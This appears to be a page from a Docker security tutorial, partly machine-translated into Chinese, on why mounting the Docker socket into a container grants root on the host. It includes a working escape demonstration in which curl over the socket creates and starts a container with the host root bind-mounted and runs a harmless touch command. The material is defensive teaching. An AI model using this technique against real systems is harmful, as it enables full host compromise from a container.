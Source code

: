 # 将 Docker 插座安装到容器中

这是开发人员在部署容器化解决方案时完全忽略的最严重的安全漏洞。对于与容器管理相关的各种事情，互联网上的建议通常倾向于将 Docker 套接字(`/var/run/docker.sock`)绑定安装到容器中，但很少提到的是，当您这样做时，实际上是让主机的根级访问这样的容器。由于 Docker 的套接字实际上只是一个 API 端点，Docker 守护程序作为根运行，因此容器可以简单地通过启动其他容器并在其上装载主机的系统文件夹，然后在这些容器上执行任意命令来逃避其包含。

For more information on using the Docker socket as a RESTful endpoint, you can take a look at the source code or explore a bit through the documentation for Docker Engine API at [https://docs.docker.com/engine/api/v1.31/](https://docs.docker.com/engine/api/v1.31/). The only thing you will generally need to do to use it through a tool such as `curl` is to add `--unix-socket <socket_path>` and, optionally `-H "Content-Type: application/json"` for `POST` requests. Docker has been making strides at turning its service into a userspace one from a root-level one, but so far, this feature has not materialized in any practical manner. While personally I have reservations about this happening anytime soon, keep an eye out for this feature as at some point it may actually get released and become a usable feature which would be a huge step forward for container security.

有了如何误用 Docker 套接字的理论，现在我们将打破我们的容器，尽管我们将停止实际做任何损害系统的事情:

```
$ Start a "benign" container with the Docker socket mounted and run Bash
$ docker run --rm \
 -it \
 -v /var/run/docker.sock:/var/run/docker.sock \
 ubuntu /bin/bash 

root@686212135a17:/# # Sanity check - make sure that the socket is there
root@686212135a17:/# ls -la /var/run/docker.sock
srw-rw---- 1 root 136 0 Sep 20 05:03 /var/run/docker.sock

root@686212135a17:/# # Install curl but almost any other HTTP client will work
root@686212135a17:/# # Even a base Python can do this but curl is fine for brevity
root@686212135a17:/# apt-get update && apt-get install -y curl
<snip>
done

root@686212135a17:/# # Create a container through the socket and bind-mount root to it
root@686212135a17:/# # with a "malicious" touch command to run
root@686212135a17:/# curl -s \
 --unix-socket /var/run/docker.sock \
 -H "Content-Type: application/json" \
 -d '{"Image": "ubuntu", "Cmd": ["touch", "/mnt/security_breach"], "Mounts": [{"Type": "bind", "Source": "/", "Target":"/mnt", "RW": true}]}' \
 -X POST \
 http:/v1.29/containers/create 
{"Id":"894c4838931767462173678aacc51c3bb98f4dffe15eaf167782513305c72558","Warnings":null}

root@686212135a17:/# # Start our escaped container
root@686212135a17:/# curl --unix-socket /var/run/docker.sock \
 -X POST \
 http:/v1.29/containers/894c4838/start

root@686212135a17:/# # Exit out of our "benign" container back to host
root@686212135a17:/# exit
exit

$ # Let's see what happened on our host
$ ls -la / | grep breach
-rw-r--r--   1 root root       0 Sep 20 23:14 security_breach 
$ # Oops!
```
